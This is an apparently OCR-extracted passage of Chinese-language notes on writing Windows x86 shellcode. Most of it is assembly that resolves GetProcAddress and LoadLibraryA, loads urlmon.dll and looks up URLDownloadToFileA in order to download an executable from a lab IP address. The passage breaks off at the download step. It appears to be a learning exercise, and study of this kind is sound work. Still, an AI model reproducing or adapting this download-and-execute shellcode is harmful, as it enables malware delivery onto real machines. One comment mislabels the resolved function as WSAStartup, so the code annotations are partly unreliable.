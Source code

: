 - `URLDownloadToFileA`函数位于`urlmon.dll`，直接加载这个 DLL 似乎不那么方便，但是可以通过`kernel32.dll`中的`LoadLibraryA`函数来加载，这样改写代码的难度就小了很多。（参考：[Windows/x86 - MSVCRT System + Dynamic Null-free + Add RDP Admin + Disable Firewall + Enable RDP Shellcode](https://www.exploit-db.com/exploits/48355)）
- 要注意字符串存储的位置应与`findFunctionAddr`中查找字符串的位置一致
    ```
    ; Push string "GetProcAddress",0x00 onto the stack
    xor eax, eax            ; clear eax register
    mov ax, 0x7373          ; AX is the lower 16-bits of the 32bit EAX Register
    push eax                ;   ss : 73730000 // EAX = 0x00007373 // \x73=ASCII "s"
    push 0x65726464         ; erdd : 65726464 // "GetProcAddress"
    push 0x41636f72         ; Acor : 41636f72
    push 0x50746547         ; PteG : 50746547
    mov [ebp+0x18], esp      ; save PTR to string at bottom of stack (ebp)
    call findFunctionAddr   ; After Return EAX will = &GetProcAddress
    ; EAX = &GetProcAddress
    mov [ebp-0x1C], eax      ; save &GetProcAddress

    ; Call GetProcAddress(&kernel32.dll, PTR "LoadLibraryA"0x00)
    xor edx, edx            ; EDX = 0x00000000
    push edx                ; null terminator for LoadLibraryA string
    push 0x41797261         ; Ayra : 41797261 // "LoadLibraryA",0x00
    push 0x7262694c         ; rbiL : 7262694c
    push 0x64616f4c         ; daoL : 64616f4c
    push esp                ; $hModule    -- push the address of the start of the string onto the stack
    push dword [ebp-0x4]    ; $lpProcName -- push base address of kernel32.dll to the stack
    mov eax, [ebp-0x1C]     ; Move the address of GetProcAddress into the EAX register
    call eax                ; Call the GetProcAddress Function.
    mov [ebp-0x20], eax     ; save Address of LoadLibraryA
    ```
- 接着使用`LoadLibraryA`函数加载`urlmon.dll`
    ```
    ; Call LoadLibraryA(PTR "urlmon")
    ;   push "urlmon",0x00 to the stack and save pointer
    xor eax, eax            ; clear eax
    mov ax, 0x6E6F          ; no : 6E6F
    push eax
    push 0x6D6C7275         ; mlru : 6D6C7275
    push esp                ; push the pointer to the string
    mov ebx, [ebp-0x20]     ; LoadLibraryA Address to ebx register
    call ebx                ; call the LoadLibraryA Function to load urlmon.dll
    mov [ebp-0x24], eax     ; save Address of urlmon.dll
    ```
- 获得`URLDownloadToFileA`函数的地址
    ```
    ; Call GetProcAddress(urlmon.dll, "URLDownloadToFileA")
    xor edx, edx
    mov dx, 0x4165          ; Ae
    push edx
    push 0x6C69466F         ; liFo
    push 0x5464616F         ; Tdao
    push 0x6C6E776F         ; lnwo
    push 0x444c5255         ; DLRU
    push esp    		        ; push pointer to string to stack for 'URLDownloadToFileA'
    push dword [ebp-0x24]   ; push base address of urlmon.dll to stack
    mov eax, [ebp-0x1C]     ; PTR to GetProcAddress to EAX
    call eax                ; GetProcAddress
    ;   EAX = WSAStartup Address
    mov [ebp-0x28], eax     ; save Address of urlmon.URLDownloadToFileA
    ```
- 调用`URLDownloadToFileA`下载`http://192.168.56.13/goosedt.exe`
  ```
  ;URLDownloadToFileA(NULL, URL, save as, 0, NULL)
  download:
  pop eax
  ```